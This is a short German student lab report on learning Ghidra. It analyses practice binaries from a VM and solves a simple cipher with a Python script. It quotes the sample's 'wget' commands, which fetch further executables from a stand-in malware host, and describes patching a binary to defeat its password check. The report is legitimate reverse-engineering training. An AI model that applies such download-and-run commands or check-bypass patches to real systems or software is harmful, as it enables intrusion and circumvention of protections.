 ```yaml
---
title: Ghidra for Beginners
author: Paul Nykiel
date: \today
---
```


# Einführung
Der `file` Befehl teilt einem mit, dass es sich um eine Executable (mit Debug Informationen) für x86-64 Linux handelt.

Beim ausführen werden drei neue Executables angelegt: `02_a`, `02_b` und `03`. Mit `strings 01` kann man herausfinden
woher die Dateien kommen, man findet drei `wget` Anweisungen:
```
wget -q http://malware.h4.xx0r/02_a
wget -q http://malware.h4.xx0r/02_b
wget -q http://malware.h4.xx0r/03
```
interessehalber kann auch herausgefunden werden was sich hinter `malware.h4.xx0r` versteckt, mit `dig` kann
der DNS-Eintrag aufgelöst werden, er zeigt auf Localhost. D.h. es läuft ein Webserver in der VM.

# Advanced
## Chiffre analysieren
Das Program akzeptiert zwei Argument mit jeweils genau 10 Zeichen länge. 
Das erste Argument wird transformiert und muss dann gleich dem zweiten Argument sein. 
Die Transformation erfordert, dass das Wort nur aus Buchstaben besteht, diese werden im ersten Schritt alle
zu Kleinbuchstaben umgewandelt. Im nächsten Schritt wird der ASCII-Wert jeden Buchstabens mit 10 Multipliziert und
Modulo `0x1A` gerechnet. Auf das Ergebnis wird dann der ASCII Wert von "a" addiert und dieses Ergebnis wird wieder
nach ASCII Interpretiert.

Um die Transformation schnell ausrechnen zu können wurde ein kleine Python Skript geschrieben:
```python
import sys

inp = sys.argv[1]
out = ""

for c in inp:
    asc = ((ord(c) * 10) % 0x1A) + ord('a')
    out += chr(asc) 

print(out)
```
dieses ergibt z.B. für den Text `aaaaaaaaaa` die Chiffre `iiiiiiiiii`. Diese wird vom Program auch als korrekt angenommen.

## Patchen
Das Passwort ist immer eine zufällige Permutation aller Zeichen eines Strings im Programmcode (der String ist 
initial `0123456789`). Durch Patchen des Strings (wie in der VL beschrieben) zu `0000000000` sind alle Passwörter
Permutationen von `0` also wieder `0000000000`.

# Fazit
In dieser Aufgabe wurden drei verschiedene Anwendungen analysiert und reverse-engineered. Hierbei wurde die Anwendung
von Ghidra geübt.

Zusammenfassend hat mir die Übung gefallen, sie hat einen einfachen Einstieg in Ghidra ermöglicht und einen Überblick
darüber gegeben was mit Ghidra möglich ist.


